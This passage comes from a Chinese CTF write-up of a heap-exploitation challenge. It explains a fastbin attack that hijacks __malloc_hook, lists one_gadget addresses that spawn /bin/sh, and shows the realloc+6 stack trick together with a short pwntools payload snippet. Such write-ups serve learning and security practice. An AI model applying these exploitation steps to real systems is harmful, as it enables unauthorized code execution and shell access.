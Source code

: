    最终的目的是劫持 `__malloc_hook`，从而在执行 malloc 的时候能够取得 shell

4. 然后取回这两个 fastbin，先取回 `fastbin[0x60]`，并趁机改写 `0x71` 堆块的 next 位为 `libc_base + libc.symbols['__malloc_hook'] - 0x23`，这样我们之后就能分配到这里

   ![控制堆](/assets/images/wp/2024/week5/eldenring_10.png)

   至于为什么要分配到这里，是因为 fastbin 分配出来时会检测即将分配的 chunk 处 size 位是否符合 malloc 的参数，其中 `libc_base + libc.symbols['__malloc_hook'] - 0x23` 处刚好满足 `fastbin[0x70]` 的要求

   ![控制堆](/assets/images/wp/2024/week5/eldenring_11.png)

   如何寻找这样的地址呢？

   我们可以通过 `find_fake_fast` 查找合适的地址

   ![find fake fast](/assets/images/wp/2024/week5/eldenring_12.png)

5. 最后我们再连续分配两个满足 `fastbins[0x70]` 的 chunk，即可在 `__malloc_hook` 中填入 one_gadget，再次进入 malloc 时即可劫持执行流

6. 不过似乎事情没有这么简单，one_gadget 此次并没有奏效，栈上的环境并不满足如下三个 one_gadget 的执行条件

```asm
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv

```

这里介绍个小 trick

![trick](/assets/images/wp/2024/week5/eldenring_13.png)

如上 push 会改变栈环境，可以在 `__malloc_hook` 处填入 `realloc` 的地址 + 一些偏移，从而构造一个符合 one_gadget 的栈环境，同时执行完 realloc 后会执行 `__malloc_hook-8` 处 `__realloc_hook` 的内容，我们理所应当的在此填入 one_gadget 劫持执行流

我使用的分别是 `&realloc+6` 和偏移为 `0xf1247` 的 onegadget

```python
#----------------------Attack __malloc_hook
Two_finger(123,b64e(b'sekiro'))#2
#Attackchunk
Two_finger(123,b64e(b'\x00'*(0x13-8)+p64(libc_base+0xf1247)+p64(libc_base+libc.symbols['realloc']+6)))
```

效果如下

![效果](/assets/images/wp/2024/week5/eldenring_14.png)
